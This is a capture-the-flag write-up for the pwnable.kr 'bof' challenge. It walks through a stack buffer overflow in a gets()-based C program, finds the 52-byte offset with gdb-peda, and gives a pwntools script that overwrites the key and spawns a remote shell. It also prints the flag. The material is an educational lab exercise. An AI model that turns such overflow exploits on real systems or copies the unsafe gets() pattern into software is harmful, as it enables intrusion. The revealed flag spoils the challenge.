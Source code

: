 # pwnable.kr bof writeup (5 pt)

```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

So it gives us the vulnerable binary & the source code. Also the binary is running at `pwnable.kr 9000`.

Let's start!

# 0x01 Binary Enumeration

Let's download the files first.

```bash
[root@pwn4magic]:~/Desktop/bof# wget -q http://pwnable.kr/bin/bof
[root@pwn4magic]:~/Desktop/bof# wget -q http://pwnable.kr/bin/bof.c
[root@pwn4magic]:~/Desktop/bof# ls 
bof  bof.c
```

Cool, now let's enumerate the binary.

```bash
[root@pwn4magic]:~/Desktop/bof# file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

32bit binary cool, let's run the binary now & try to crash it.

```bash
[root@pwn4magic]:~/Desktop/bof# chmod +x bof
[root@pwn4magic]:~/Desktop/bof# ./bof
overflow me : 
1337
Nah..
[root@pwn4magic]:~/Desktop/bof# python -c 'print "A" * 100' | ./bof
overflow me : 
Nah..
*** stack smashing detected ***: <unknown> terminated
Aborted
```

Alright, now let's check the source code.

`bof.c`

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

So we have 2 functions, function `func` & function `main`. We need to focus on function `func`. 

We have a buffer there `char overflowme[32];` 32bytes and it tells us if `key == 0xcafebabe` will gives us shell.

Let's find the offset now.

# Exploitation

Let's fire up PEDA!

```bash
root@pwn4magic]:~/Desktop/bof# gdb -q bof
Reading symbols from bof...
(No debugging symbols found in bof)
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x00000474  _init
0x000004c0  gets@plt
0x000004d0  __stack_chk_fail@plt
0x000004e0  __cxa_finalize@plt
0x000004f0  puts@plt
0x00000500  system@plt
0x00000510  __gmon_start__@plt
0x00000520  __libc_start_main@plt
0x00000530  _start
0x00000570  __do_global_dtors_aux
0x000005f0  frame_dummy
0x00000627  __i686.get_pc_thunk.bx
0x0000062c  func
0x0000068a  main
0x000006b0  __libc_csu_init
0x00000720  __libc_csu_fini
0x00000730  __do_global_ctors_aux
0x00000768  _fini
gdb-peda$ 
```

We can see the functions there `func` & `main`. Let's disassemble func.

```assembly
gdb-peda$ disassemble func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:    call   0x56555645 <func+25>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0x56555650 <func+36>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:    call   0x56555665 <func+57>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:    call   0x56555673 <func+71>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0x56555684 <func+88>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
gdb-peda$ 
```

Let's set a breakpoint at `cmp` instruction. Then we will generate a 100bytes pattern.

```bash
gdb-peda$ break *0x56555654
Breakpoint 1 at 0x56555654
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ 
```

Now we will run the binary and input the 100bytes.

```bash
gdb-peda$ r
Starting program: /root/Desktop/bof/bof 
overflow me : 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
[----------------------------------registers-----------------------------------]
EAX: 0xffffd19c ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x0 
ECX: 0xf7fad5c0 --> 0xfbad2288 
EDX: 0xf7faf01c --> 0x0 
ESI: 0xf7fad000 --> 0x1d6d6c 
EDI: 0xf7fad000 --> 0x1d6d6c 
EBP: 0xffffd1c8 ("AFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
ESP: 0xffffd180 --> 0xffffd19c ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x56555654 (<func+40>:     cmp    DWORD PTR [ebp+0x8],0xcafebabe)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
```

Let's display the memory contents of `ebp+0x8` at EIP register & find the offset.

```bash
gdb-peda$ x/s $ebp+0x8
0xffffd1d0:     "AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"
gdb-peda$ pattern offset AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL found at offset: 52
gdb-peda$ 
```

Perfect time to build our exploit.

`exploit.py PoC`

```python
#!/usr/bin/env python
from pwn import *

sock = remote('pwnable.kr', 9000)
payload = "A" * 52 + p32(0xcafebabe)
sock.sendline(payload)
sock.interactive()
```

Let's fire it up!

```bash
[root@pwn4magic]:~/Desktop/bof# chmod +x exploit.py 
[root@pwn4magic]:~/Desktop/bof# ./exploit.py 
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
$  
```

Flag : `daddy, I just pwned a buFFer :)`

-pwn4magic

